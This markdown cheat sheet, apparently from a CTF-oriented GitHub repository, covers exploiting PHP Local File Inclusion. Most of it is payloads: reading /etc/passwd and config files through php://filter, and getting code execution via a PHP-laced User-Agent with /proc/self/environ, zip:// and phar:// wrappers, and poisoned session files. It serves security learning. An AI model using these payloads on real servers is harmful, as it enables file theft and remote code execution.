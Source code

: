 # Tricky ways to exploit PHP Local File Inclusion

## Introduction

Brought from [Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_File_Inclusion), Local File Inclusion (LFI) is similar to a Remote File Inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server can be included for execution.

For instance:

```php
include $_GET['file'];
```

or harder one,

```php
include $_GET['file'] . ".php";
```

## Tricks

### Direct Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=/etc/passwd`
    * `index.php?file=php://filter/convert.base64-encode/resource=config.php`

- Remote code exection:
    * /proc/self/environ
        ```
        GET /index.php?file=/proc/self/environ&cmd=id HTTP/1.1
        Host: www.site.com
        User-Agent: <?php echo assert($_GET['cmd']);?>
        ```
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell.php`
        - `index.php?file=phar://image.phar/shell.php`

    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123php
            ```

### Indirect Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=php://filter/convert.base64-encode/resource=config # will append ".php" at the end`

- Remote code exection:
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell`
        - `index.php?file=phar://image.phar/shell`
    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123
            ```

## Reference

1. [File inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_File_Inclusion)
2. [通过 zip/phar 协议包含文件](https://lightless.me/archives/include-file-from-zip-or-phar.html)
3. [AIS3 Final CTF Web Writeup (Race Condition & one-byte off SQL Injection)](http://blog.orange.tw/2015/09/ais3-final-ctf-web-writeup-race.html)
4. [lucyoa/ctf-wiki](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion)
